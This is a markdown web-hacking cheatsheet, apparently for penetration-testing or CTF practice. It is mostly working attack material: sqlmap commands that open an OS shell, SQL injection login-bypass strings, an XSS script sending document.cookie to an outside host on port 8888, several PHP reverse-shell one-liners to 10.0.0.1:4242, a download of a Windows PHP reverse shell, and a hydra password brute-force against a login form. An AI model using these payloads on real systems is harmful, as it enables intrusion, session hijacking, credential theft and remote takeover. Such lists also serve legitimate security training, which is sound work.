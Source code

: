 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### Links

[Everything curl](https://everything.curl.dev/)

#### GET Request

`curl http://targetURL`

#### GET Request Save Cookie

`curl -c /tmp/cookies http://targetURL`

#### GET Request with Cookie

`curl -b 'cookiename=cookievalue' https://google.com`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

#### File Upload

`curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`

<!--
##################################################################
##################################################################
-->

## SQLI

### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

### Test for XSS

`Hello!<script>alert("Welcome");</script>`

### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## [SQLite](https://www.sqlitetutorial.net/sqlite-commands/)

### Access Database

`sqlite3 databasename.db`

### Show Tables

`.tables`

### Show Table Info

`PRAGMA table_info(tablename);`
`.schema tablename`

### Dump Info From Table

`SELECT * FROM customers;`
`.dump tablename`

<!--
##################################################################
##################################################################
-->

## Shells

### PHP

`php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'`

`php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

### Windows PHP Reverse Shell

`wget https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php`

<!--
##################################################################
##################################################################
-->

## Brute Forcing

### Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`

<!--
##################################################################
##################################################################
-->

## Useful Commands
